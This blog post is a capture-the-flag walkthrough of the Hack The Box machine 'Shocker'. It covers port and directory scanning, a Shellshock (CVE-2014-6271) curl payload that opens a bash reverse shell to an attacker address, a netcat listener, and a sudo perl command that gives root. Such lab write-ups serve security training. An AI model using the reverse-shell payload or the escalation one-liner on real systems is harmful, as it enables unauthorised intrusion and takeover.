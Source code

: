 ```yaml
---
layout: post
title: "Shocker"
date: 2024-9-11 18:58:00 +0100
categories: [writeup, easy]
tags: [machine, CVE 2014-6271]
---
```


<p>
    <a href="https://app.hackthebox.com/machines/108">
        <img src="https://labs.hackthebox.com/storage/avatars/efef52a0fb63d9c8db0ab6e50cb6ac79.png" width="500"
        alt="Descripción">
    </a>
</p>

# Shocker Writeup

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Web Recon](#2-web-recon)
3. [CVE-2014-6271](#3-cve-2014-6271)
4. [Privilege Escalation](#4-privilege-escalation)

## 1. Recon

As usual, we start with an Nmap scan to identify open ports and services.

```bash	
figueron@kali$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
figueron@kali$ nmap -p 80,2222 -sCV -oA scans/nmap-tcpscripts 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

When visiting the website, we see a simple page with spider telling "Don't bug me!".

<p align="left">
    <img src="assets/img/writeupImgs/Shocker/image-20210516063155550.webp"
    alt="Website">
</p>    

## 2. Web Recon

As we dont see anything interesting on the website, we can run a feroxbuster scan to find hidden directories.

```bash
figueron@kali$ feroxbuster -u http://10.10.10.56 -f -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
403       11l       32w      294c http://10.10.10.56/cgi-bin/
403       11l       32w      292c http://10.10.10.56/icons/
403       11l       32w      300c http://10.10.10.56/server-status/
[####################] - 15s    29999/29999   0s      found:3       errors:0      
[####################] - 14s    29999/29999   2039/s  http://10.10.10.56
```

This was the execution that showed more info, with flags `-f` to append / to each request's URL, this means that there would be more paths inside this matches and `-n` to not recurse.

Next, we do this for every match we found.

For the `/cgi-bin/` directory, we can try for .sh, .cgi and .pl files, because they are common in this kind of directories. Cgi-bin is a directory used to execute scripts on the server side.

```bash
figueron@kali$ feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh, cgi, pl]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
[####################] - 57s   359988/359988  0s      found:1       errors:0      
[####################] - 57s   119996/119996  2089/s  http://10.10.10.56/cgi-bin/
```
We found a user.sh file, let's see what it contains.

<p align="center">
    <img src="assets/img/writeupImgs/Shocker/image-20210516070515215.webp"
    alt="User.sh">
</p>

Going to the website with burp and capturing the request, we can see that the user.sh file is being executed and in this case this is the command `uptime`.

This would be an example of `uptime`:

```bash
figueron@kali$ uptime
 07:08:38 up 5 days, 16:27, 35 users,  load average: 0.00, 0.08, 0.18
```

## 3. CVE-2014-6271

After a bit of researching, I found this [interesting CVE](https://pentesterlab.com/exercises/cve-2014-6271). 

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **info**: "This vulnerability impacts the Bourne Again Shell (Bash). Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface (CGI)."
{: .prompt-info }
<!-- markdownlint-restore -->


```bash
figueron@kali$ curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1"
```

Now, we just listen to that port on the attacker machine and we will get a shell.

```bash
figueron@kali$ nc -lvnp <port>
```

# 4. Privilege Escalation

After getting a shell, we can see that we are the user `shelly`. So we can run `sudo -l` to see what we can run as root.

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run perl as root, so we can use this to get a root shell.

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **TIP**: [GTFOBins](https://gtfobins.github.io/#) is a nice place to look for when there is a common binary that can be used to escalate privileges, this page contains lots of ways to exploit binaries.
{: .prompt-tip }
<!-- markdownlint-restore -->


```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
```	

Now we can read the root flag.

Done !!